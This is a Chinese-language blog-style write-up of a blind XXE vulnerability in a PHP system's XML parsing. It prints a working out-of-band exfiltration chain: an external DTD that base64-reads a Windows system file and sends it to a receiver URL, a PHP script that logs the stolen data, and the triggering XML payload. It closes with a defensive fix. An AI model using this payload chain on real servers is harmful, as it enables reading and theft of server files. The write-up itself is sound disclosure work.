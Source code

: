 

可以看到，此方法将 post 流中的数据直接放入到 `simplexml_load_string()` 函数中，由于此方法未传入其他参数，所以只要有使用此方法的地方，必然会有 xxe 漏洞。

由于本机未装 php 5.6 以下版本，所以本次测试环境为 :

```
os : win10
php_version : 5.4.45   
```

网上很多文章都有写 libxml 2.9.1 以上的 php 默认会禁止加载外部实体，实际上 libxml 2.9.4 这一版的 php 依旧可以成功加载外部实体。因为 php 7.0 以上的版本集成的 libxml 还是有 2.9.4 版，所以此漏洞也是可以在 php7 上复现的，这个问题由 Cart0a 提出。具体禁用加载外部实体的 libxml 版本有待探索。


由于是无回显形式的 xxe，所以我们需要构造一个数据接收方：

- 我们先在本地上传模拟测试实体 `test.dtd`

```xml
<!ENTITY % file SYSTEM "php://filter/read=convert.base64-encode/resource=file:///C:/Windows/win.ini">
<!ENTITY % int "<!ENTITY &#37; send SYSTEM 'http://127.0.0.1/receive.php?p=%file;'>">
```

- 然后构造接收脚本 `receive.php`

```php
<?php
file_put_contents("result.txt",$_GET['p']);
?>
```

- 最后将 payload 传入到 post 流中，偷取到的数据写入到 `result.txt` 文件中

```xml
<?xml version="1.0" encoding="utf-8"?>
<!DOCTYPE convert [ 
<!ENTITY % remote SYSTEM "http://127.0.0.1/test.dtd">
%remote;%int;%send;
]>
```



 ![2](https://raw.githubusercontent.com/59lx/userful_photo/master/myblog_photos/%E6%9F%90%E7%B3%BB%E7%BB%9F./2.png)



【由于图片需要上传需要打码，复现可根据上文文字步骤进行】



 ![3](https://raw.githubusercontent.com/59lx/userful_photo/master/myblog_photos/%E6%9F%90%E7%B3%BB%E7%BB%9F./3.png)



成功偷到数据。



暂时的防御办法就是：

```php
libxml_disable_entity_loader(true);
```
